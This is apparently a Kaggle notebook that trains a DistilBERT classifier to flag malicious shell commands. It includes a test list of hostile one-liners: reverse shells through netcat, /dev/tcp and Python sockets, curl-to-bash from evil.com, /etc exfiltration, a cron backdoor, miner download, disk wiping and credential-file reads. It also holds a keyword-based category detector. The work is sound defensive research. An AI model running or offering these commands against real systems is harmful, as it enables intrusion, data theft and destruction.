In [ ]:
# ══════════
#  Setup
# ══════════

!pip install transformers datasets scikit-learn pandas accelerate seaborn -q
import torch
print(f"CUDA available : {torch.cuda.is_available()}")
print(f"GPU            : {torch.cuda.get_device_name(0) if torch.cuda.is_available() else 'None'}")
device = torch.device("cuda" if torch.cuda.is_available() else "cpu")
print(f"Using device   : {device}")



CUDA available : True
GPU            : Tesla T4
Using device   : cuda


In [ ]:
# ══════════════
# Load Dataset 
# ══════════════
import pandas as pd

df = pd.read_csv("/kaggle/input/datasets/ayaboui/dataset/task1_dataset_final.csv") # this is just my own kaggle path, please modify this if you wanna run this

train_df = df[df["split"] == "train"].reset_index(drop=True)
val_df   = df[df["split"] == "validation"].reset_index(drop=True)
test_df  = df[df["split"] == "test"].reset_index(drop=True)

print(f"Train : {len(train_df)} | Val : {len(val_df)} | Test : {len(test_df)}")

Train : 81004 | Val : 10115 | Test : 10116


In [ ]:
# ═════════
# Tokenize 
# ═════════
import torch
from transformers import DistilBertTokenizer
from torch.utils.data import Dataset

tokenizer = DistilBertTokenizer.from_pretrained("distilbert-base-uncased")

class CommandDataset(Dataset):
    def __init__(self, commands, labels, tokenizer, max_length=128):
        self.commands   = commands
        self.labels     = labels
        self.tokenizer  = tokenizer
        self.max_length = max_length

    def __len__(self):
        return len(self.commands)

    def __getitem__(self, idx):
        enc = self.tokenizer(
            self.commands[idx],
            max_length=self.max_length,
            padding="max_length",
            truncation=True,
            return_tensors="pt"
        )
        return {
            "input_ids"      : enc["input_ids"].squeeze(0),
            "attention_mask" : enc["attention_mask"].squeeze(0),
            "label"          : torch.tensor(self.labels[idx], dtype=torch.long)
        }

train_dataset = CommandDataset(train_df["command"].tolist(), train_df["label"].tolist(), tokenizer)
val_dataset   = CommandDataset(val_df["command"].tolist(),   val_df["label"].tolist(),   tokenizer)
test_dataset  = CommandDataset(test_df["command"].tolist(),  test_df["label"].tolist(),  tokenizer)

print("Tokenization done ✅")

Tokenization done ✅


In [ ]:
# ════════════
# Load Model 
# ════════════
import torch
from transformers import DistilBertForSequenceClassification

# Set device: GPU if available, otherwise CPU
device = torch.device("cuda" if torch.cuda.is_available() else "cpu")
print(f"Using device: {device}")

model = DistilBertForSequenceClassification.from_pretrained(
    "distilbert-base-uncased",
    num_labels=2
)
model = model.to(device)
print(f"Model on : {next(model.parameters()).device}")

Using device: cuda


Loading weights:   0%|          | 0/100 [00:00<?, ?it/s]

DistilBertForSequenceClassification LOAD REPORT from: distilbert-base-uncased
Key                     | Status     | 
------------------------+------------+-
vocab_layer_norm.bias   | UNEXPECTED | 
vocab_transform.bias    | UNEXPECTED | 
vocab_layer_norm.weight | UNEXPECTED | 
vocab_projector.bias    | UNEXPECTED | 
vocab_transform.weight  | UNEXPECTED | 
classifier.bias         | MISSING    | 
classifier.weight       | MISSING    | 
pre_classifier.bias     | MISSING    | 
pre_classifier.weight   | MISSING    | 

Notes:
- UNEXPECTED	:can be ignored when loading from different task/architecture; not ok if you expect identical arch.
- MISSING	:those params were newly initialized because missing from the checkpoint. Consider training on your downstream task.


Model on : cuda:0


In [ ]:
# ══════
# Train
# ══════
from torch.utils.data import DataLoader
from transformers import get_linear_schedule_with_warmup
from torch.optim import AdamW
from sklearn.metrics import accuracy_score, f1_score
import torch
import os

# ──────────────────────────────────────────────────────────────────────────────
# Hyperparameters
EPOCHS        = 1 # generally EPOCHS =3, but since my model was well trainned even with 1, i just left it like that, since 3 will consume so much time
BATCH_SIZE    = 32
LEARNING_RATE = 2e-5
# Kaggle's writable directory (model will be saved here)
SAVE_PATH     = "/kaggle/working/distilbert_risk_model"
os.makedirs(SAVE_PATH, exist_ok=True)

# DataLoaders
train_loader = DataLoader(train_dataset, batch_size=BATCH_SIZE, shuffle=True)
val_loader   = DataLoader(val_dataset,   batch_size=BATCH_SIZE, shuffle=False)

# Optimizer and scheduler
optimizer = AdamW(model.parameters(), lr=LEARNING_RATE, weight_decay=0.01)
total_steps = len(train_loader) * EPOCHS
scheduler = get_linear_schedule_with_warmup(
    optimizer,
    num_warmup_steps=total_steps // 10,
    num_training_steps=total_steps
)

# Evaluation function
def evaluate(model, loader, device):
    model.eval()
    all_preds, all_labels = [], []
    total_loss = 0
    with torch.no_grad():
        for batch in loader:
            input_ids = batch["input_ids"].to(device)
            attention_mask = batch["attention_mask"].to(device)
            labels = batch["label"].to(device)
            outputs = model(input_ids=input_ids, attention_mask=attention_mask, labels=labels)
            total_loss += outputs.loss.item()
            preds = torch.argmax(outputs.logits, dim=1)
            all_preds.extend(preds.cpu().numpy())
            all_labels.extend(labels.cpu().numpy())
    return total_loss / len(loader), accuracy_score(all_labels, all_preds), f1_score(all_labels, all_preds)

# Training loop
best_val_f1 = 0
print("Starting training on Kaggle GPU...\n")

for epoch in range(EPOCHS):
    model.train()
    total_loss = 0

    for step, batch in enumerate(train_loader):
        input_ids = batch["input_ids"].to(device)
        attention_mask = batch["attention_mask"].to(device)
        labels = batch["label"].to(device)

        optimizer.zero_grad()
        outputs = model(input_ids=input_ids, attention_mask=attention_mask, labels=labels)
        outputs.loss.backward()
        torch.nn.utils.clip_grad_norm_(model.parameters(), 1.0)
        optimizer.step()
        scheduler.step()
        total_loss += outputs.loss.item()

        if (step + 1) % 200 == 0:
            print(f"  Epoch {epoch+1} | Step {step+1}/{len(train_loader)} | Loss: {outputs.loss.item():.4f}")

    val_loss, val_acc, val_f1 = evaluate(model, val_loader, device)
    print(f"\n✅ Epoch {epoch+1}/{EPOCHS}")
    print(f"   Train Loss : {total_loss/len(train_loader):.4f}")
    print(f"   Val Loss   : {val_loss:.4f}")
    print(f"   Val Acc    : {val_acc:.4f}")
    print(f"   Val F1     : {val_f1:.4f}")

    if val_f1 > best_val_f1:
        best_val_f1 = val_f1
        model.save_pretrained(SAVE_PATH)
        tokenizer.save_pretrained(SAVE_PATH)
        print(f"   💾 Best model saved to {SAVE_PATH} (F1={val_f1:.4f})")
    print()

print(f"Training complete! Best Val F1: {best_val_f1:.4f}")

Starting training on Kaggle GPU...

  Epoch 1 | Step 200/2532 | Loss: 0.0104
  Epoch 1 | Step 400/2532 | Loss: 0.0021
  Epoch 1 | Step 600/2532 | Loss: 0.0041
  Epoch 1 | Step 800/2532 | Loss: 0.0006
  Epoch 1 | Step 1000/2532 | Loss: 0.0019
  Epoch 1 | Step 1200/2532 | Loss: 0.0089
  Epoch 1 | Step 1400/2532 | Loss: 0.0003
  Epoch 1 | Step 1600/2532 | Loss: 0.0002
  Epoch 1 | Step 1800/2532 | Loss: 0.0002
  Epoch 1 | Step 2000/2532 | Loss: 0.0002
  Epoch 1 | Step 2200/2532 | Loss: 0.0004
  Epoch 1 | Step 2400/2532 | Loss: 0.0004

✅ Epoch 1/1
   Train Loss : 0.0290
   Val Loss   : 0.0024
   Val Acc    : 0.9994
   Val F1     : 0.9994


Writing model shards:   0%|          | 0/1 [00:00<?, ?it/s]

   💾 Best model saved to /kaggle/working/distilbert_risk_model (F1=0.9994)

Training complete! Best Val F1: 0.9994


FINAL TEST RESULTS
              precision    recall  f1-score   support

      Benign       1.00      1.00      1.00      5000
   Malicious       1.00      1.00      1.00      5116

    accuracy                           1.00     10116
   macro avg       1.00      1.00      1.00     10116
weighted avg       1.00      1.00      1.00     10116

✅ Confusion matrix saved to /kaggle/working/confusion_matrix.png




In [ ]:
# ══════════════════════
# Evaluate on Test Set 
# ══════════════════════
from sklearn.metrics import classification_report, confusion_matrix
from torch.utils.data import DataLoader
import seaborn as sns
import matplotlib.pyplot as plt
import torch

test_loader = DataLoader(test_dataset, batch_size=BATCH_SIZE, shuffle=False)

model.eval()
all_preds, all_labels = [], []
with torch.no_grad():
    for batch in test_loader:
        input_ids = batch["input_ids"].to(device)
        attention_mask = batch["attention_mask"].to(device)
        labels = batch["label"].to(device)
        outputs = model(input_ids=input_ids, attention_mask=attention_mask)
        preds = torch.argmax(outputs.logits, dim=1)
        all_preds.extend(preds.cpu().numpy())
        all_labels.extend(labels.cpu().numpy())

print("=" * 50)
print("FINAL TEST RESULTS")
print("=" * 50)
print(classification_report(all_labels, all_preds, target_names=["Benign", "Malicious"]))

# Confusion matrix
cm = confusion_matrix(all_labels, all_preds)
plt.figure(figsize=(6, 5))
sns.heatmap(cm, annot=True, fmt="d", cmap="Blues",
            xticklabels=["Benign", "Malicious"],
            yticklabels=["Benign", "Malicious"])
plt.title("Confusion Matrix — DistilBERT Risk Classifier")
plt.ylabel("True Label")
plt.xlabel("Predicted Label")
plt.tight_layout()

# Save to Kaggle's writable directory (not Google Drive)
save_path = "/kaggle/working/confusion_matrix.png"
plt.savefig(save_path, dpi=150)
print(f"✅ Confusion matrix saved to {save_path}")
plt.show()

In [ ]:
# ════════════════
# Test Inference 
# ════════════════
def classify_command(command):
    inputs = tokenizer(
        command,
        return_tensors="pt",
        truncation=True,
        max_length=128
    )
    # Move inputs to the same device as the model (GPU or CPU)
    inputs = {k: v.to(device) for k, v in inputs.items()}

    with torch.no_grad():
        logits = model(**inputs).logits

    probs = torch.softmax(logits, dim=1)
    pred  = torch.argmax(logits, dim=1).item()
    confidence = probs[0][pred].item()

    label = "🔴 MALICIOUS" if pred == 1 else "🟢 BENIGN"
    return f"{label}  ({confidence:.1%} confidence)"

# Test commands
print(classify_command("rm -rf /"))
print(classify_command("ls -la"))
print(classify_command("wget http://malicious.com/bot.sh"))
print(classify_command("git status"))
print(classify_command("cat /etc/passwd"))

🔴 MALICIOUS  (99.8% confidence)
🟢 BENIGN  (99.8% confidence)
🔴 MALICIOUS  (99.8% confidence)
🟢 BENIGN  (99.9% confidence)
🔴 MALICIOUS  (95.0% confidence)


In [20]:
# Comprehensive test commands
test_commands = [
    # Benign commands (typical user/system admin)
    "ls -la",
    "cd /home/user",
    "pwd",
    "echo 'Hello'",
    "cat file.txt",
    "grep 'error' logfile",
    "find . -name '*.py'",
    "ps aux",
    "top -b -n 1",
    "df -h",
    "du -sh /home",
    "systemctl status ssh",
    "service docker restart",
    "apt update",
    "pip install pandas",
    "git commit -m 'update'",
    "python script.py --help",
    "make clean",
    "docker ps -a",
    "kubectl get pods",

    # Potentially malicious commands (not all, but many)
    "rm -rf /tmp/test",
    "rm -rf /var/log/syslog",
    "dd if=/dev/zero of=/dev/sda bs=1M",
    "mkfs.ext4 /dev/sda1",
    "shred -vfz /etc/passwd",
    "curl http://evil.com/shell.sh | bash",
    "wget -q http://malware.com/payload -O- | sh",
    "nc -e /bin/bash 192.168.1.100 4444",
    "/bin/bash -i >& /dev/tcp/10.0.0.1/8080 0>&1",
    "python -c 'import socket,subprocess,os;s=socket.socket();s.connect((\"10.0.0.2\",1234));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call([\"/bin/sh\",\"-i\"])'",
    "sudo su -",
    "chmod 4777 /bin/bash",
    "echo 'root::0:0:root:/root:/bin/bash' >> /etc/passwd",
    "history -c",
    "unset HISTFILE",
    "cat /dev/null > ~/.bash_history",
    "cat /etc/shadow",
    "cat /root/.ssh/id_rsa",
    "nmap -sV -p- 192.168.1.0/24",
    "netstat -tulnp | grep LISTEN",
    "arp -a",
    "crontab -r",
    "(crontab -l; echo '@reboot /tmp/backdoor') | crontab -",
    "systemctl disable firewalld",
    "kill -9 -1",
    "find / -name '*.conf' -exec cat {} \\; | nc 10.0.0.5 9999",
    "tar czf - /etc | curl -T - http://evil.com/upload",
    "wget -O /tmp/xmrig http://pool.minexmr.com/xmrig && chmod +x /tmp/xmrig && /tmp/xmrig",
    "git clone https://github.com/malicious/repo && cd repo && make",
    "pip install --index-url http://evil.com/pypi malicious-package",
    "docker run -it --rm -v /:/mnt alpine chroot /mnt /bin/bash",
    "kubectl exec -it pod -- /bin/bash -c 'cat /etc/passwd'",
]

print("Testing model on 50+ commands...\n")
for cmd in test_commands:
    result = classify_command(cmd)
    print(f"{cmd[:50]:<50} -> {result}")

Testing model on 50+ commands...

ls -la                                             -> 🟢 BENIGN  (99.8% confidence)
cd /home/user                                      -> 🟢 BENIGN  (99.4% confidence)
pwd                                                -> 🟢 BENIGN  (98.7% confidence)
echo 'Hello'                                       -> 🟢 BENIGN  (99.7% confidence)
cat file.txt                                       -> 🟢 BENIGN  (100.0% confidence)
grep 'error' logfile                               -> 🟢 BENIGN  (99.5% confidence)
find . -name '*.py'                                -> 🟢 BENIGN  (100.0% confidence)
ps aux                                             -> 🟢 BENIGN  (99.6% confidence)
top -b -n 1                                        -> 🟢 BENIGN  (100.0% confidence)
df -h                                              -> 🟢 BENIGN  (99.9% confidence)
du -sh /home                                       -> 🟢 BENIGN  (96.5% confidence)
systemctl status ssh                              

In [ ]:
# ═══════════════════════════════════════════════════
# DATASET ANALYSIS — Map all command categories
# ═══════════════════════════════════════════════════
import pandas as pd
import re
from collections import Counter

df = pd.read_csv("/kaggle/input/datasets/ayaboui/ask1-dataset/task1_dataset_final.csv") #again, this is my own path, change it if needed
malicious = df[df["label"] == 1]["command"].tolist()
benign    = df[df["label"] == 0]["command"].tolist()

def categorize(cmd):
    cmd = cmd.lower()
    if any(x in cmd for x in ["fsockopen", "tcpsocket", "socket.connect", "/dev/tcp", "dev/udp"]):
        return "reverse_shell_network"
    if any(x in cmd for x in ["nc -e", "ncat -e", "netcat", "nc -c"]):
        return "reverse_shell_netcat"
    if any(x in cmd for x in ["socat", "telnet"]):
        return "reverse_shell_socat"
    if any(x in cmd for x in ["import socket", "rsocket", "-rsocket"]):
        return "reverse_shell_script"
    if any(x in cmd for x in ["rm -rf", "rm -f /", "shred", "wipe"]):
        return "destructive_delete"
    if any(x in cmd for x in ["dd if=", "mkfs", "fdisk"]):
        return "destructive_disk"
    if any(x in cmd for x in ["curl", "wget", "fetch", "lwp"]) and any(x in cmd for x in ["| bash","| sh","| python","-O- |"]):
        return "download_execute"
    if any(x in cmd for x in ["sudo su", "sudo bash", "sudo -s", "chmod 4", "chmod u+s", "chown root"]):
        return "privilege_escalation"
    if any(x in cmd for x in ["history -c", "unset hist", "histfile", "/dev/null > ~/.bash", "rm.*bash_history"]):
        return "cover_tracks"
    if any(x in cmd for x in ["/etc/shadow", "/etc/passwd", "id_rsa", ".ssh/", "/etc/sudoers"]):
        return "sensitive_file_access"
    if any(x in cmd for x in ["nmap", "masscan", "zmap", "arp-scan"]):
        return "network_scan"
    if any(x in cmd for x in ["crontab", "rc.local", "systemctl enable", ".bashrc", "profile"]) and any(x in cmd for x in ["backdoor", "malware", "shell", "tmp", "evil"]):
        return "persistence"
    if any(x in cmd for x in ["| nc ", "| curl", "| wget"]) and any(x in cmd for x in ["/etc", "/home", "/root", "passwd"]):
        return "exfiltration"
    if any(x in cmd for x in ["xmrig", "minexmr", "cryptonight", "monero"]):
        return "cryptomining"
    if any(x in cmd for x in ["kill -9 -1", ":(){ :|:& };:", "fork bomb"]):
        return "denial_of_service"
    if any(x in cmd for x in ["export port", "export 0", "export ip"]):
        return "quasarnix_payload"
    return "other"

# Count categories in malicious dataset
print("=" * 55)
print("MALICIOUS COMMAND CATEGORIES")
print("=" * 55)
mal_categories = Counter(categorize(cmd) for cmd in malicious)
total_mal = len(malicious)
for cat, count in mal_categories.most_common():
    pct = count / total_mal * 100
    bar = "█" * int(pct / 2)
    print(f"{cat:30s} {count:6d} ({pct:5.1f}%) {bar}")

print(f"\nTotal malicious: {total_mal}")

# Show examples per category
print("\n" + "=" * 55)
print("EXAMPLES PER CATEGORY")
print("=" * 55)
from collections import defaultdict
by_cat = defaultdict(list)
for cmd in malicious:
    by_cat[categorize(cmd)].append(cmd)

for cat, cmds in sorted(by_cat.items()):
    print(f"\n[{cat}] ({len(cmds)} commands)")
    for c in cmds[:3]:
        print(f"  → {c[:80]}")

MALICIOUS COMMAND CATEGORIES
reverse_shell_network           26276 ( 51.3%) █████████████████████████
other                           13251 ( 25.9%) ████████████
reverse_shell_netcat             8562 ( 16.7%) ████████
reverse_shell_script             2199 (  4.3%) ██
quasarnix_payload                 253 (  0.5%) 
download_execute                  193 (  0.4%) 
sensitive_file_access             165 (  0.3%) 
network_scan                       65 (  0.1%) 
cryptomining                       61 (  0.1%) 
exfiltration                       44 (  0.1%) 
destructive_delete                 38 (  0.1%) 
persistence                        35 (  0.1%) 
privilege_escalation               34 (  0.1%) 
destructive_disk                   10 (  0.0%) 
cover_tracks                        7 (  0.0%) 
denial_of_service                   2 (  0.0%) 
reverse_shell_socat                 1 (  0.0%) 

Total malicious: 51196

EXAMPLES PER CATEGORY

[cover_tracks] (7 commands)
  → unset HISTFILE
  → history -

In [ ]:
# this is just to prepare download
import shutil
shutil.make_archive('/kaggle/working/distilbert_risk_model', 'zip', 
                    '/kaggle/working/distilbert_risk_model')
print("Ready to download!")

Ready to download!
